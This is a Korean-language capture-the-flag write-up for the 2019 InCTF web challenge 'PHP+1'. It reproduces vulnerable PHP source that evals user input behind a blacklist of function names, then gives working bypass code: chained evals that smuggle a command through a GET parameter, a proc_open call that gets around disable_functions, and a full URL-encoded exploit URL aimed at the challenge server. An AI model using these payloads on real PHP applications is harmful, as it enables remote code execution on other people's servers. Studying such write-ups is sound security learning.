 ```yaml
---
title: 2019 InCTF - PHP+1
tags: ctf writeup web inctf
---
```

Description:
```
Difficulty: Warmup

Author: [SpyD3r](https://twitter.com/TarunkantG)

Description: Bypass WAF and get me shell.

[Link](http://18.222.93.187/)
```
Source:
```php
<?php

$input = $_GET['input'];

function check(){
  global $input;
  foreach (get_defined_functions()['internal'] as $blacklisted) {
      if (preg_match ('/' . $blacklisted . '/im', $input)) {
          echo "Your input is blacklisted" . "<br>";
          return true;
          break;
      }
  }
  $blacklist = "exit|die|eval|\[|\]|\\\|\*|`|-|\+|~|\{|\}|\"|\'";
  unset($blacklist);
  return false;
}

$thisfille=$_GET['thisfile'];

if(is_file($thisfille)){
  echo "You can't use inner file" . "<br>";
}
else{
  if(file_exists($thisfille)){
    if(check()){
      echo "Naaah" . "<br>";
    }else{
      eval($input);
    }
  }else{
    echo "File doesn't exist" . "<br>";
  }

}

function iterate($ass){
    foreach($ass as $hole){
        echo "AssHole";
    }
}

highlight_file(__FILE__);
?>
```
get으로 ``input``과 ``thisfile``을 받는다. ``thisfile``은 파일이 아니면서 존재해야 하므로, 폴더를 입력하면 된다. 나는 현재 디렉터리인 ``.``으로 했다.

첫번째 필터를 통과하면, check 함수로 ``input``의 내용을 확인해주고, 필터에 걸리지 않으면 eval 해준다.

``get_defined_functions()['internal']``은 사용자 지정 함수를 제외한 모든 internal 함수의 목록을 반환해 준다. check는 이를 이용해서 input에 internal 함수명이 포함되어 있을경우 true를 반환하고, ``input``이 eval되지 못하게 한다.

여기서 이용한 점은:
- eval은 함수가 아니다.
- $ 가 필터링되지 않으므로 변수를 선언/사용 할수 있다.

eval과 문자열을 적절히 이용하면 필터를 피해서 원하는 함수를 호출할 수 있다:
```php
$b = '$c=ch'.'r(95);';  //c에 필터링되는 문자 '_'를 넣는다.
eval($b);
$a = '$cmd=$'.$c.'GET["cmd"];'; //c를 이용해서 cmd에 get으로 변수를 받는다.
eval($a);
eval($cmd); //저장된 cmd를 eval 해준다.
```

phpinfo를 이용해서 금지된 명령어들을 보자:
```
disable_functions:
pcntl_alarm,pcntl_fork,pcntl_waitpid,pcntl_wait,pcntl_wifexited,pcntl_wifstopped,pcntl_wifsignaled,pcntl_wifcontinued,pcntl_wexitstatus,pcntl_wtermsig,pcntl_wstopsig,pcntl_signal,pcntl_signal_get_handler,pcntl_signal_dispatch,pcntl_get_last_error,pcntl_strerror,pcntl_sigprocmask,pcntl_sigwaitinfo,pcntl_sigtimedwait,pcntl_exec,pcntl_getpriority,pcntl_setpriority,pcntl_async_signals,exec,system,shell_exec,popen,passthru,link,symlink,syslog,imap_open,ld,error_log,mail,file_put_contents,scandir,file_get_contents,readfile,fread,fopen,chdir
```

목록에 없는 proc_open을 사용해서 shell을 얻었다:
```php
// get으로 넘겨준 sh 값을 shell에서 실행시켜준다.
$process = proc_open($_GET['sh'], array(0 => array("pipe", "r"),1 => array("pipe", "w")), $pipes, "/tmp/");
// 출력값 echo
echo stream_get_contents($pipes[1]);
```

루트에서 ls를 해보면 flag와 readFlag 파일이 있는데 readFlag를 실행하면 flag가 나온다.

최종 payload:
```
http://18.222.93.187/?input=%24b%20%3D%20%27%24c%3Dch%27.%27r(95)%3B%27%3Beval(%24b)%3B%24a%3D%27%24cmd%3D%24%27.%24c.%27GET%5Bcmd%5D%3B%27%3Beval(%24a)%3Beval(%24cmd)%3B&thisfile=.&cmd=%24process%20%3D%20proc_open(%24_GET%5B%27sh%27%5D%2C%20array(0%20%3D%3E%20array(%22pipe%22%2C%20%22r%22)%2C1%20%3D%3E%20array(%22pipe%22%2C%20%22w%22))%2C%20%24pipes%2C%20%22%2Ftmp%2F%22)%3Becho%20stream_get_contents(%24pipes%5B1%5D)%3B&sh=/readFlag
```